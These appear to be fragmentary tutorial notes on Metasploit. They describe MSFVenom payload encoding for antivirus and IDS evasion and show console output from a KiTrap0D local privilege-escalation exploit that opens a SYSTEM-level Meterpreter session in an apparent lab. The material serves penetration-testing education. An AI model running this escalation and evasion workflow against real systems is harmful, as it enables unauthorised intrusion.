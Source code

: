 ```ruby
end
```

### Resources for Learning

- [Metasploit Documentation](https://docs.metasploit.com)
- Metasploit: A Penetration Tester's Guide by No Starch Press
- Rapid7 Blog Posts


# Introduction to MSFVenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

MSFVenom is the result of the marriage between these two tools. Before this tool, we had to pipe (|) the result from MSFPayload, which was used to generate shellcode for a specific processor architecture and OS release, into MSFEncode, which contained multiple encoding schemes used both for removing bad characters from shellcode (this could sometimes cause instability during the runtime), and for evading older Anti-Virus (AV) and endpoint Intrusion Prevention / Intrusion Detection (IPS/IDS) software.

...

### MSF - Local Privilege Escalation

```bash
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D
...

[*] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```


# Firewall and IDS/IPS Evasion

## Understanding Defenses
